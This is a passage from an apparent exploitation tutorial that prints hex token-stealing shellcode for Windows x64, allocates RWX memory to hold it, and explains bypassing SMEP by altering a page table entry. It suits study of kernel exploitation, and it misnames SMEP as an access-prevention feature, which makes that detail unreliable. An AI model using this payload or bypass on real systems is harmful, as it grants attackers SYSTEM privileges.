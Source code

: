 ```c
char payload[] = "\x65\x48\x8B\x04\x25\x88\x01\x00\x00"
	"\x48\x8B\x80\xB8\x00\x00\x00"
	"\x48\x89\xC3\x48\x8B\x9B\xF0\x02\x00\x00"
	"\x48\x81\xEB\xF0\x02\x00\x00"
	"\x48\x8B\x8B\xE8\x02\x00\x00"
	"\x48\x83\xF9\x04\x75\xE5"
	"\x48\x8B\x8B\x58\x03\x00\x00"
	"\x80\xE1\xF0\x48\x89\x88\x58\x03\x00\x00"
	"\x48\x31\xC0\xC3";
```

### Allocating rwx memory in user mode
Here we allocate a `rwx` memory region for our shellcode.

```c
void* shellcode = VirtualAlloc(
	NULL, // Address.
	sizeof(payload), // Size.
	0x3000, // Allocation Type.
	0x40 // Protection.
);

// Moving memory into allocated space in user mode.

RtlMoveMemory(
	shellcode,
	payload,
	sizeof(payload)
);

```

### Changing U/S bit of the PTE
Remember I said that the kernel is going to execute our code from a memory region in user mode? Well, in order to do so we need to bypass SMEP.

#### What is SMEP?
SMEP or Supervisor Mode Access Prevention, is a CPU feature that will cause a "Bug Check" to occur with the following error message - `ATTEMPTED_EXECUTE_OF_NOEXECUTE_MEMORY`, whenever the CPU will try to access a memory region in user mode with `CPL=0` while the right CPL(Current Privilege Level) should be `CPL=3`. 
We can see if SMEP is enabled by looking at the 20th bit in `cr4`  - 

![](https://github.com/amitschendel/amitschendel.github.io/blob/master/assets/images/Pasted%20image%2020211227003917.png?raw=true)

In this case, it's the `1` at the start.

As documented in Intel's manual 3A sections 2.5 (CR4.SMEP flag) and 4.6 (per memory page settings).

![](https://github.com/amitschendel/amitschendel.github.io/blob/master/assets/images/Pasted%20image%2020211227004429.png?raw=true)

![](https://github.com/amitschendel/amitschendel.github.io/blob/master/assets/images/Pasted%20image%2020211227005527.png?raw=true)
					
